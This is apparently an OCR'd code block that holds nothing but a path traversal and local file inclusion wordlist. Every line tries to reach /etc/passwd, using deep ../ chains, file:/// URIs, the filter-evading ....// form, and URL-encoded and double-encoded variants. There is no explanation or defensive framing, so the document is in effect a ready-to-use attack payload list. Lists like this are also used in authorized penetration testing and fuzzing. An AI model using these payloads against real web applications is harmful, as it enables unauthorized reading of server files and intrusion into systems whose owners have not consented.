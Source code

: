 ```bash
/../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../../../../etc/passwd
file:///../etc/passwd
file:///../../etc/passwd
file:///../../../etc/passwd
file:///../../../../etc/passwd
file:///../../../../../etc/passwd
file:///../../../../../../etc/passwd
file:///../../../../../../../etc/passwd
file:///../../../../../../../../etc/passwd
file:///../../../../../../../../../etc/passwd
file:///../../../../../../../../../../etc/passwd
file:///../../../../../../../../../../../etc/passwd
file:///../../../../../../../../../../../../etc/passwd
file:///../../../../../../../../../../../../../etc/passwd
file:///../../../../../../../../../../../../../../etc/passwd
file:///../../../../../../../../../../../../../../../etc/passwd
....//etc/passwd
....//....//etc/passwd
....//....//....//etc/passwd
....//....//....//....//etc/passwd
....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
file://....//etc/passwd
file://....//....//etc/passwd
file://....//....//....//etc/passwd
file://....//....//....//....//etc/passwd
file://....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
file://....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd
..%252fetc%252fpasswd
..%252f..%252fetc%252fpasswd
```